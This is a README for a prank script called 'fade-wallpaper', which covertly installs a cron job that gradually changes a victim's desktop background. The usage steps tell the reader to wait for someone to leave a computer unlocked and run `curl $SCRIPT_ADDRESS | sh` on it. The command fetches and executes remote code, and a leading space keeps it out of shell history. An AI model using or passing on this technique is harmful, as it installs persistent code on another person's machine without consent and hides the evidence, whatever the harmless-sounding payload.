 fade-wallpaper
==============

A tiny script meant to teach people to always lock their screens when leaving the computer. It installs a cron job that slowly fades one's desktop background into an arbitrary image.

![Example](/example.jpg)


Disclaimer
----------

This script is provided for entertainment purposes only. Be aware that obtaining unauthorized access to someone else's computer is illegal.


Requirements
------------

* *Setup*: a Linux host for initial configuration, any HTTP server for serving the script.
* *Target*: a Linux host with GNOME 3 desktop environment and ``imagemagick`` installed.


Usage
-----

1. Clone the project onto your host.
2. Use `./configure` to setup the script. `./configure --help` lists available options.
3. Review the generated code to make sure it doesn't do anything you don't expect it to.
4. Make the configured script (`build/fade-wallpaper`) accessible over HTTP.
5. Wait until you see someone leave their computer without locking the screen.
6. Open a terminal, quickly type ` curl $SCRIPT_ADDRESS | sh` and exit it. Make sure to include the leading space, which prevents the command from being stored in the shell history file.
7. Wait for a look of confusion and terror on one's face when they discover something's wrong with the wallpaper.
